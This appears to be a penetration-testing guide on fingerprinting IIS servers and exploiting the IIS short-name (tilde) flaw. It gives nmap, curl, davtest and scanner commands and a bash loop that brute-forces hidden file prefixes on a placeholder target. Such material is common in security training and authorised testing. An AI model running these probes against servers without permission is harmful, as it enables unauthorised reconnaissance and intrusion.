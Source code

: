 # IIS Enumeration and Windows Server Exploitation

## Overview
This document covers advanced techniques for enumerating IIS web servers, extracting paths, attempting backup downloads, exploiting web services, and leveraging archived content for reconnaissance.

## IIS Server Enumeration

### Basic IIS Fingerprinting
**Objective**: Identify IIS version and configuration details

**Techniques**:
```bash
# Nmap IIS enumeration
nmap -sV -p 80,443 --script http-iis-webdav-vuln,http-iis-short-name-brute target_ip

# HTTP headers analysis
curl -I http://target.com
curl -X OPTIONS http://target.com

# IIS version detection
nmap -p 80,443 --script http-server-header target_ip
whatweb http://target.com

# WebDAV detection
davtest -url http://target.com
cadaver http://target.com
```

### IIS Short Name Enumeration
**Objective**: Exploit IIS short name vulnerability to discover hidden files and directories

**Techniques**:
```bash
# IIS short name scanner
java -jar iis_shortname_scanner.jar 2 20 http://target.com

# Manual short name enumeration
curl "http://target.com/aspnet~1.*"
curl "http://target.com/admin~1.*"
curl "http://target.com/backup~1.*"

# Automated short name brute force
for i in {a..z}; do
    for j in {a..z}; do
        curl -s "http://target.com/${i}${j}~1.*" | grep -v "404"
    done
done

# IIS tilde enumeration with Burp Suite
# Send request: GET /admin~1.* HTTP/1.1
# Look for different response codes/lengths
```
